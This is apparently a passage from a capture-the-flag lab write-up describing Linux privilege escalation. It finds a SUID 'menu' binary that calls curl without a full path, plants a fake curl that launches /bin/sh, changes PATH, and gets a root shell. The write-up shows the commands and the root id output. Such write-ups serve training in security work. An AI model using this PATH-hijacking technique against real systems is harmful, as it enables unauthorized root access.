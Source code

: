 ```
/usr/bin/menu
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/at
/usr/bin/newgrp
/bin/umount
/bin/fusermount
/bin/mount
/bin/ping
/bin/su
/bin/ping6
```
From here we can identify `/usr/bin/menu` as a file of interest. Running the binary presents us with some options.
```
***************************************
1. status check
2. kernel version
3. ifconfig
```
`Option 1` returns HTTP headers.
`Option 2` returns a kernal version of the host
`Option 3` returns IP addressing of the host
We are given a hint that `strings` is a linux command which looks for human readable strings from a binary.
```bash
strings /usr/bin/menu
```
The walkthrough points out that the binary is not referencing full file paths for `curl` and `uname` as shown below.
```bash
curl -I localhost
uname -r
ifconfig
```
At this point it is explained that any other binary can be coppied into the directory and renamed to curl to cause to menu binary to call on that renamed file. In this instance, they're asking for the `sh` shell be to be called. To this we clone the `sh` binary into a `curl` binary withing the `/tmp` path. Once this is done, we can max the file's permissions.
```bash
echo /bin/sh > curl
chmod 777 curl
```
From here I was a bit confused as the the command that was used however I figured we are setting a new environment path for the system to look for binaries.
```bash
export PATH=/tmp:$PATH
```
From here we can execute the `menu` binary again and when the option to curl is chosen, the shell is run as root.
```bash
/usr/bin/menu
  ** Enter your choice: 1
id
  uid=0(root) gid=1000(kenobi) groups=1000(kenobi),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),113(lpadmin),114(sambashare)
```
Now we can find our final root flag.
```bash
cd /root
cat root.txt
```

---